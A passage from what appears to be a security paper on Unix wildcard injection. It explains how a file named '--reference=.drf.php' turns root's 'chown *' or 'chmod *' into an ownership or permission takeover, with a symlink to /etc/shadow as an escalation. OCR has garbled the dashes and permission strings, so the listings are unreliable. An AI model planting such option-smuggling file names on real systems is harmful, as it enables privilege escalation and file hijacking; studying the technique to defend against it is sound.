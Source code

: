 ```shell
-rw-rw-r———.  1 leon leon  117 Oct 28 17:35 inc.php
-rw-rw-r———.  1 leon leon  111 Oct 28 17:38 index.php
-rw-rw-r———.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw——.  1 leon leon   66 Oct 28 17:35 password.inc.php
-rw-rw-r——.  1 leon leon   94 Oct 28 17:35 script.php
```

Something is not right… What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group ‘nobody’, but somehow,  all files are owned by the user ‘leon’ now.

If we take closer look, this directory previously contained just the  following two files created and owned by the user ‘leon’.

```
-rw-r——r——.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r——.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
```

Thing is that wildcard character used in ‘chown’ command line took arbitrary  ‘——reference=.drf.php’ file and passed it to the chown command at the command line as an option.

Let’s check chown manual page (man chown):

```
   --reference=RFILE
          use RFILE’s owner and group rather than specifying OWNER:GROUP values
```

So in this case, ‘——reference’ option to ‘chown’ will override ‘nobody:nobody’ specified as the root, and new owner of files in this directory will be exactly same as the owner of ‘.drf.php’, which is in this case user ‘leon’. Just for the record, ‘.drf’ is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some  arbitrary user. If we set some other file as argument to the ——reference option, file that’s owned by some other user, not ‘leon’, in that case he would become owner  of all files in this directory.

With this simple chown parameter pollution, we can trick root into changing ownership  of files to arbitrary users, and practically “hijack” files that are of interest to us. Even more, if user ‘leon’ previously created a symbolic link in that directory  that points to let’s say /etc/shadow, ownership of /etc/shadow would also be changed to the user ‘leon’.

## Chmod file reference trick

Another interesting attack vector similar to previously described ‘chown’  attack is ‘chmod’. Chmod also has ——reference option that can be abused to specify arbitrary  permissions on files selected with asterisk wildcard.

```
Chmod manual page (man chmod):
       --reference=RFILE
              use RFILE’s mode instead of MODE values
```

Example is presented below.

```shell
[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx———. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r———.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r———.  1 user user    34 Oct 28 17:47 ado.php
-rw-rw-r———.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r———.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rw-rw-r———.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r———.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r———.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r———.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r———.  1 user user   117 Oct 28 17:36 inc.php
```